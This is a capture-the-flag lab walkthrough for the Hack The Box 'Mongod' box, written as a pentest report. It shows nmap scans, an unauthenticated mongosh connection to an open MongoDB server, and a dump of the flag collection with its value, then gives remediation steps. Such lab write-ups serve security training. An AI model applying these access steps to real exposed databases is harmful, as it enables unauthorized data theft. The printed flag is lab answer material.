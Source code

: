 # HTB Starting Point Lab Walkthrough: Mongod (Linux Box)

## Executive Summary

- **Lab Objective**: Enumerate and exploit a MongoDB service on the target machine to retrieve a flag, simulating unauthenticated remote database access.
- **Target IP**: 10.129.204.253
- **Key Findings**: Identified an open MongoDB 3.6.8 instance on port 27017 with access control disabled, allowing unauthenticated read/write access to all databases. Retrieved a sensitive flag from the `sensitive_information` database.
- **Impact**: In a real-world scenario, unauthenticated database access could lead to complete data exposure, modification, or deletion, posing a critical risk to confidentiality and integrity.
- **Recommendations**: Enable authentication, restrict network access to trusted hosts, and upgrade to a supported MongoDB version.
- **Completion Date**: July 16, 2025
- **Tools Used**: Nmap, mongosh 2.3.2 (portable binary, Kali Linux)

## Methodology and Scope

This walkthrough follows a standard reconnaissance and exploitation process for the HTB Starting Point lab "Mongod." The scope was limited to port scanning, MongoDB service enumeration, and data access on the provided target IP. No advanced exploitation or privilege escalation was required.

Steps were performed in a controlled lab environment using Kali Linux. A key challenge was a version mismatch between modern MongoDB clients and the legacy server, resolved by using a portable mongosh 2.3.2 binary. Assumptions: Target is a Linux machine running MongoDB 3.6.8.

## Findings

### Finding 1: Open Ports and MongoDB Service Identification

- **Description**: MongoDB, a NoSQL database, was found running on port 27017. Two TCP ports (22/ssh, 27017/mongod) were open, with MongoDB identified as version 3.6.8.
- **Severity**: Informational (baseline enumeration).
- **Steps to Reproduce**:
    1. Perform a full port scan using Nmap:
        
        ```bash
        nmap -p- -T5 10.129.204.253
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-16 07:33 EDT
        Nmap scan report for 10.129.204.253
        Host is up (0.020s latency).
        Not shown: 65533 closed tcp ports (reset)
        PORT      STATE SERVICE
        22/tcp    open  ssh
        27017/tcp open  mongod
        Nmap done: 1 IP address (1 host up) scanned in 8.41 seconds
        ```
        
    2. Confirm service version on port 27017:
        
        ```bash
        nmap -p 27017 -sV 10.129.204.253
        ```
        
        Output:
        
        ```bash
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-16 07:36 EDT
        Nmap scan report for 10.129.204.253
        Host is up (0.021s latency).
        PORT      STATE SERVICE VERSION
        27017/tcp open  mongodb MongoDB 3.6.8
        Nmap done: 1 IP address (1 host up) scanned in 6.32 seconds
        ```
        
- **Impact**: Confirms MongoDB is active and identifies the version, enabling targeted enumeration.
- **Evidence**: Nmap scan results above.
- **Remediation**: N/A (informational).

### Finding 2: Unauthenticated MongoDB Access

- **Description**: The MongoDB server (3.6.8) has access control disabled, allowing unauthenticated connections to read and write all databases. A legacy mongosh client (2.3.2) was required due to compatibility issues with modern clients.
- **Severity**: Critical (unauthenticated database access).
- **Steps to Reproduce**:
    1. Navigate to the directory containing the portable mongosh 2.3.2 binary:
        
        ```bash
        cd ~/htb/mongosh-2.3.2-linux-x64/bin
        ls -l
        ```
        
        Output:
        
        ```bash
        total 261712
        -rwxr-xr-x 1 reaper reaper 150977944 Oct  8  2024 mongosh
        -rwxr-xr-x 1 reaper reaper 117003624 Oct  8  2024 mongosh_crypt_v1.so
        ```
        
    2. Connect to the MongoDB server using the legacy binary:
        
        ```bash
        ./mongosh mongodb://10.129.204.253:27017
        ```
        
        Output:
        
        ```bash
        Current Mongosh Log ID:    6877a3d765bfecc065fe6910
        Connecting to:        mongodb://10.129.204.253:27017/?directConnection=true&appName=mongosh+2.3.2
        Using MongoDB:        3.6.8
        Using Mongosh:        2.3.2
        ------
        The server generated these startup warnings when booting
        2025-07-16T11:27:44.434+0000: 
        2025-07-16T11:27:44.434+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
        2025-07-16T11:27:44.434+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
        2025-07-16T11:27:46.729+0000: 
        2025-07-16T11:27:46.729+0000: ** WARNING: Access control is not enabled for the database.
        2025-07-16T11:27:46.729+0000: **          Read and write access to data and configuration is unrestricted.
        2025-07-16T11:27:46.729+0000:
        ------
        test> 
        ```
        
    3. List available databases:
        
        ```bash
        show dbs
        ```
        
        Output:
        
        ```bash
        admin                  32.00 KiB
        config                 72.00 KiB
        local                  72.00 KiB
        sensitive_information  32.00 KiB
        users                  32.00 KiB
        ```
        
- **Impact**: Unauthenticated access allows full read/write control over all databases, risking data exposure, modification, or deletion.
- **Evidence**: MongoDB connection and database listing above.
- **Remediation**: Enable access control with strong authentication; upgrade MongoDB to a supported version (3.6.8 is outdated).

### Finding 3: Data Exfiltration from Sensitive Database

- **Description**: Enumerated the `sensitive_information` database, identified a `flag` collection, and dumped its contents to retrieve a sensitive flag.
- **Severity**: Critical (successful data exfiltration).
- **Steps to Reproduce**:
    1. Switch to the `sensitive_information` database and list collections:
        
        ```bash
        use sensitive_information
        show collections
        ```
        
        Output:
        
        ```bash
        switched to db sensitive_information
        flag
        ```
        
    2. Dump the contents of the `flag` collection:
        
        ```bash
        db.flag.find()
        ```
        
        Output:
        
        ```bash
        [
          {
            _id: ObjectId('630e3dbcb82540ebbd1748c5'),
            flag: '1b6e6fb359e7c40241b6d431427ba6ea'
          }
        ]
        ```
        
- **Impact**: Access to sensitive data demonstrates a real-world data breach scenario, potentially exposing critical information.
- **Evidence**: Command outputs and flag value above.
- **Remediation**: Remove sensitive data from publicly accessible databases; implement role-based access controls.

## Recommendations

- Enable authentication and authorization in MongoDB configuration (e.g., `--auth` flag or `security.authorization: enabled`).
- Restrict network access to port 27017 using firewall rules, allowing only trusted hosts.
- Upgrade MongoDB to a supported version to mitigate known vulnerabilities in 3.6.8.
- Regularly scan for exposed database services using tools like Nmap or MongoDB-specific scripts (e.g., `mongodb-databases.nse`).
- For labs like this, practice using tools like Metasploit’s `mongodb_login` module to test for weak credentials.

## Appendices

- **Raw Notes/Logs**: (Optional—attach full session logs if sharing.)
- **Screenshots**: (Add here if available, e.g., terminal captures.)
- **Key Takeaway**: Tooling version mismatches (e.g., modern mongosh vs. legacy MongoDB) can complicate engagements. Using portable binaries can bypass dependency issues.